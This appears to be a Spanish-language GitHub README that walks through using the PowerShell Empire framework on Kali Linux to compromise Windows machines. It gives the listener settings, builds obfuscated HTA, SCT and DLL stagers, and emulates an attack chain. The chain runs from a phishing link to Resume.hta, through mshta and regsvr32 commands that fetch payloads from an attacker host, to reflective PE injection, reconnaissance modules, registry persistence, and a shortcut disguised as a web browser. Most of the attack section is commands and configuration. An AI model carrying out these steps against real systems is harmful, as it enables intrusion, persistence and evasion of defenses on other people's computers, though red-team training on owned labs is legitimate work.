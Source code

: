 # Powershell Empire: Post-Explotación en redes Windows con Kali linux

-Powershell Empire, es un framework de post-explotación basado en el despliegue de agentes que se ejecutan en las máquinas comprometidas y son gestionados desde una consola bajo el control del pentester.
-Consiste en la integración de los frameworks conocidos de pentesting con powershell.
-Se centra únicamente en Python con comunicaciones criptográficamente seguras con el complemento de una arquitectura flexible.

# Componentes de PowerShell Empire

1.Listeners: Es un proceso que escucha una conexión desde la máquina que estamos atacando. Esto ayuda a Empire a enviar el “paquete” a la computadora del atacante.
2.Agentes: Es un programa que mantiene una conexión entre tu computadora y el host comprometido.
3.Stagers: Es un fragmento de código que permite que nuestro código malicioso se ejecute a través del agente en el host comprometido.
4.Módulos: Esto es lo que ejecuta nuestros comandos maliciosos, que pueden recopilar credenciales y escalar nuestros privilegios como se mencionó anteriormente.

## Prerequisitos
1. Considerar los S.O compatibles que han sido testeados para el uso de Empire:
-Kali Linux Rolling (En nuestro caso estaremos utilizando este S.O)
-Ubuntu 20.04
-Debian 10

> Verificar con:
> uname -r

2. Actualizar todas las dependencias y paquetes del S.O
> sudo apt update 

3. Tener instalado Python como mínimo la versión 3.8 (Se recomiendo la v3.8 o v3.9)
> Verificar con:
> python --version

4. Para los S.O Kali instalar la versión utilizando sudo (las nuevas versiones de Kali requieren correr “sudo” antes de empezar Empire.


## Instalación Empire
1. Instalar la ultima versión de Empire corriendo lo siguiente:
> sudo apt install powershell-empire

El resultado debe ser el siguiente:
![image](https://i.imgur.com/DAawQol.jpg)

## Inicializar Empire
1. Inicializar servidor empire
> sudo powershell-empire server

![image](https://i.imgur.com/SuNG6Of.jpg)

2. Inicializar cliente empire
> sudo powershell-empire client

![image](https://i.imgur.com/X2cQsBp.jpg)

## Instalación Starkiller
1. Instalar Starkiller para tener GUI
>cd /opt
>sudo wget https://github.com/BC-SECURITY/Starkiller/releases/download/v1.0.0/starkiller-1.0.0.AppImage
>sudo chmod +x starkiller-1.0.0.AppImage

![image](https://i.imgur.com/rFlVBTU.jpg)

## Inicializar Starkiller (GUI)
1. Iniciar Starkiller
>cd /opt/starkiller
>./starkiller-1.0.0.AppImage

![image](https://i.imgur.com/UfK06Mk.jpg)

## Creación de componentes PowerShell Empire
1.Crear Listener
>Type: http
>Name: http
>Host: http://10.0.0.187
>Port: 80
>BindIP: 10.0.0.187
>Jitter: 0.5
>StagingKey: empireadmin

![image](https://i.imgur.com/uqNHCBy.jpg)

2.Crear Stagers
-Generar Stager HTA:
Type: windows/hta
>Listner: http
>Base64: True
>Language: powershell
>Outfile: /tmp/Resume.hta
-Generar Stager SCT:
>Type: windows/launcher_sct
>Listner: http
>Base64: True
>Language: powershell
-Generar Stager DLL:
>Type: windows/dll
>Listner: http
>Arch: x86
>Language: powershell
>OutFile: /tmp/launcher.dll
>Obfuscate: True
>ObfuscateCommand: Token\String\1

Resultado de la creación de Stagers:
![image](https://i.imgur.com/htm5bqB.jpg)

3.Descargar Stagers en /tmp y usarlos con SimpleHTTPServer
>cd /tmp
>python -m SimpleHTTPServer 8080

![image](https://i.imgur.com/JurGJ9P.jpg)

##Emulación de TTP's
1. Acceso Inicial
Enviamos un link de descarga o mail http://192.168.126.129/Resume.hta

2. Ejecución
-Ejecutar Resume.hta
>mshta http://10.0.0.187:8080/Resume.hta

![image](https://i.imgur.com/lZCeoZq.jpg)

-Migrar a otro proceso con reflective PE Injection
>ver procesos: ps
>usemodule code_execution/invoke_reflectivepeinjection
>set ProcID: <processID>
>set DllPath: /tmp/launcher.dll

![image](https://i.imgur.com/Ap8ghR1.jpg)
  
3. Agente Activo
![image](https://i.imgur.com/9Q5JA25.jpg)
  
4. Descubrimiento
>whoami
>usemodule situational_awareness/host/antivirusproduct 
>usemodule situational_awareness/host/get_uaclevel 
>usemodule situational_awareness/host/winenum

![image](https://i.imgur.com/8DjskSO.jpg)
5. Persistencia
>usemodule persistence/userland/registry
>set Listener: http

![image](https://i.imgur.com/loz2sRu.jpg)

6. Evasión de defensa
-Ejecución con regsvr32 y scripting. Se crea un acceso directo enmascarango un navegador web con target:
>C:\Windows\System32\cmd.exe /c "C:\Windows\System32\regsvr32.exe /s /n /u /i:http:\192.168.126.129:8080\launcher.sct scrobj.dll"

![image](https://i.imgur.com/maJN0cy.jpg)

#### De lo presentado anteriormente se puede apreciar que el malware (.exe/dll/hta) permite construir cualquier ataque ya que se tiene acceso a win32.
